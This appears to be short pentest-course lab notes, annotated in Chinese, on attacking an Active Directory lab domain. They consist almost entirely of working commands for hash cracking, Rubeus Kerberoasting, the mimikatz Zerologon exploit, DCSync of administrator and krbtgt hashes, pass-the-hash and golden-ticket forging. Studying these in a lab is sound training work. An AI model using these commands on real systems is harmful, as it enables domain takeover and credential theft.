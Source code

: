 直接用john破解hash取得密碼
![image](images/HJsmknzwT.png)


---

### Rubeus

Rubeus kerberoast /domain:lpt.com

--- 

### Zerologon

要下載新版的mimikatz，才有zerologon

lsadump::Zerologon /target:192.168.177.19 /account:server2019$ /null /ntlm /exploit

lsadump::postzerologon /target:192.168.177.19 /account:server2019$

lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:administrator

lsadump::dcsync /authdomain:lpt /authuser:server2019$ /authpassword:"" /authntlm /domain:lpt.com /dc:server2019 /user:krbtgt

#### Pthprivilege::debug
sekurlsa::pth /user:Administrator /domain:lpt.com /ntlm:<(HASH)>

#### PtT
kerberos::golden /domain:lpt.com /sid:<(SID)> /krbtgt:<(HASH)> /user:evil /ptt
    
misc::cmd
klist add_bind lpt.com server2019.lpt.com

OR
    
kerberos::golden /domain:lpt.com /sid:<(SID)> /krbtgt:<(HASH)> /user:evil /ticket:evil.tck
    
---
    
## Web to RCE
在LAB module 6
